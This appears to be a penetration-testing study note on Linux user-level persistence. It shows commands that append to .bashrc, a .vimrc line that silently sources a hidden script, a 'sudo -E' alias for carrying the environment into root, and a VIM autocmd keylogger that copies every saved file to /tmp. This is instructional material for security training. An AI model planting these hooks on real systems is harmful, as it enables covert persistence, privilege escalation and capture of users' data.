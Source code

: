 ## User Configuration Files

In Linux systems, applications frequently store user-specific configuration files and subdirectories
within a user’s home directory. These configuration files control how applications behave for a specific user and are typically only writable by the users or root.
If we compromise a system under a given user, we can modify those files and change how applications behave for them.

Two common examples are **.bash_profile** and **.bashrc**.
- **.bash_profile** is executed when logging in to the system initially(login to machine, or ssh)
- **.bashrc** is executed when a new terminal window is opened from an existing login session
- **can be useful when trying to maintain persistence or escalate privileges**

Example, append touch command to .bashrc, and spawn a new shell will trigger the command execution
```
linux@linuxvictim:~$ echo "touch /tmp/bashtest.txt" >> ~/.bashrc

linux@linuxvictim:~$ /bin/bash
linux@linuxvictim:~$ ls -al /tmp/bashtest.txt
-rw-rw-r-- 1 linux linux 0 Aug 26 15:20 /tmp/bashtest.txt
```
## Attcking with VIM text editor
#### VIM config file backdoor

On many Linux systems, user-specific VIM configuration settings are located in a user’s home directory in the .vimrc file. The commands specified in the .vimrc file are executed when VIM is launched. we can leverage the VIM plugin directory. As long as the files have a .vim extension, all VIM config files located in the user’s **~/.vim/plugin** directory will be loaded
when VIM is run.

We add one line in the user’s **.vimrc** file to the following, this command will mutes debug output and execute /.vimrunscript script.
```
:silent !source ~/.vimrunscript
```

On a Debian or similar system, if the user runs VIM via sudo, our script being sourced does not persist the user’s shell environment
information when moving to a sudo context. We can add an alias to the user’s .bashrc file. source command makes alias changes to go into effect right away.

```
alias sudo="sudo -E"

linux@linuxvictim:~$ source ~/.bashrc
```
#### VIM config keylogger
We can use **:autocmd** in a VIM configuration file or in the editor to set actions for a collection of predefined events. All detials commands can be found at [Vim documentation: autocmd](http://vimdoc.sourceforge.net/htmldoc/autocmd.html)

Now we can set up an autocommand that fires on the BufWritePost action and then writes the content of the file to a log file we specify. We will put our command in
```/home/linux/.vim/plugin/settings.vim```

```
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
```
**BufWritePost** us the event, meaning that after a buffer is written to a file, we will perform our action. “*” specifies this action will be performed for all files being edited. **:w!** save the buffer contents, **!** is a force modifier, it will overwrite an existing file.

VIM supports the use of basic if statements in its configuration scripts
```
:if <some condition>
:<some command>
:else
:<some alternative command>
:endif
```

below example will check if user os running as root

```
:if $USER == "root"
:autocmd BufWritePost * :silent :w! >> /tmp/hackedfromvim.txt
:endif
```



